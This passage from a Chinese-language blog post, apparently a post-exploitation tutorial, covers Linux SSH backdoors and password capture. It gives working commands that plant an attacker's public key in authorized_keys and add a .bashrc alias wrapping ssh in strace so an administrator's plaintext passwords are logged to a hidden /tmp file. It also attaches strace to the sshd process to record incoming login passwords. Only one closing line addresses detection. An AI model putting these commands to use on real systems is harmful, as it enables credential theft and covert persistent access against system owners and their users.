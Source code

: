 ![](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200305205754698-1274201580.png)

优点：能够绕过一些网络设备的安全流量监测，但是本地在查看监听端口时会暴露端口，建议设置成 8081，8080 等端口。

#### 4.3 SSH 公钥免密登陆

```
ssh-keygen -t rsa //生成公钥
echo id\_rsa.pub >> .ssh/authorized\_keys  //将id\_rsa.pub内容放到目标.ssh/authorized\_keys里


```

这个是老生常谈的公钥免登陆，这种用法不只是用在留后门，还可以在一些特殊情况下获取一个交互的 shell，如 struts 写入公钥，oracle 写入公钥连接，Redis 未授权访问等情景。

#### 4.4 SSH Keylogger 记录密码

当前系统如果存在 strace 的话，它可以跟踪任何进程的系统调用和数据，可以利用 strace 系统调试工具获取 ssh 的读写连接的数据，以达到抓取管理员登陆其他机器的明文密码的作用。

在当前用户的 .bashrc 里新建一条 alias ，这样可以抓取他登陆其他机器的 ssh 密码

```
alias ssh='strace -o /tmp/.sshpwd-\`date '+%d%h%m%s'\`.log -e read,write,connect -s2048 ssh'


```

设置完毕后，倘若当前系统不存在 alias，那么就会影响其正常使用：

![](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200305210445202-153632745.png)

```
grep "read(5" /tmp/.sshpwd-09May32324242.log | tail -n 11    //根据不同环境自行调试响应行数


```

![](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200305211117157-1374708307.png)

#### 4.5 strace 监听 ssh 来源流量

不只是可以监听连接他人，还可以用来抓到别人连入的密码。应用场景如：通过漏洞获取 root 权限，但是不知道明文密码在横向扩展中可以使用。

之前有用别名的方式来抓取登陆其他机器时的密码、同样也可以利用 strace 来监听登陆本地的 sshd 流量。

```
ps -ef | grep sshd    //父进程PID
strace -f -p 4241 -o /tmp/.ssh.log -e trace=read,write,connect -s 2048


```

![](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200305211719699-1558610383.png)

![](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200305212145796-1257295497.png)

检测：查看 shell 的配置文件或者 alias 命令即可发现，例如 ~/.bashrc 或 ~/.zshrc 文件查看是否有恶意的 alias
